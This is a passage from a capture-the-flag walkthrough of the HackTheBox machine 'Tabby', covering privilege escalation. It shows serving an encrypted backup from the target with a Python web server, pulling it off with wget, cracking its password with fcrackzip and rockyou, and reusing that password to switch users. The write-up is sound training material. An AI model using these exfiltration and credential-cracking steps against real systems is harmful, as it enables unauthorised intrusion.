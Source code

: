 Unfortunately, we’re running as the _tomcat_ user and we don’t have privileges to view the _user.txt_ flag. Therefore, we need to escalate our privileges.

## **Privilege Escalation** <a id="5805"></a>

The first thing to do when you get initial access on the box is to enumerate the filesystem to see if there are any cleartext passwords. While doing that, we find a backup file that is encrypted.

```text
tomcat@tabby:/var/www/html/files$ unzip 16162020_backup.zip Archive:  16162020_backup.zip
checkdir error:  cannot create var
                 Read-only file system
                 unable to process var/www/html/assets/.
[16162020_backup.zip] var/www/html/favicon.ico password:
```

The fact that it is password protected means that it contains sensitive information. So let’s transfer the file back to our attack machine.

Setup a python server on the target machine.

```text
python3 -m http.server 5555
```

Then download the zip file on the attack machine.

```text
wget http://10.10.10.194:5555/16162020_backup.zip
```

Use fcrackzip to crack the password.

```text
rana@kali:~/Desktop/htb/tabby/user$ fcrackzip -D -p /usr/share/wordlists/rockyou.txt 16162020_backup.zip possible pw found: admin@it ()
```

It discovers the password! Use it to unzip the file.

```text
unzip 16162020_backup.zip
```

Going through the content of the files, we don’t find anything useful. However, we do have a new password. So let’s see if it was reused anywhere on the target system. First, let’s try to su into the ash user.

```text
tomcat@tabby:/var/lib/tomcat9$ su ash
Password: 
ash@tabby:/var/lib/tomcat9$ whoami
ash
```

It works, we’re now running as _ash_. Let’s view the _user.txt_ file.

![Image for post](../images/max/914/1*QHIWHXWgWI1w00MDZ6mdNQ.png)
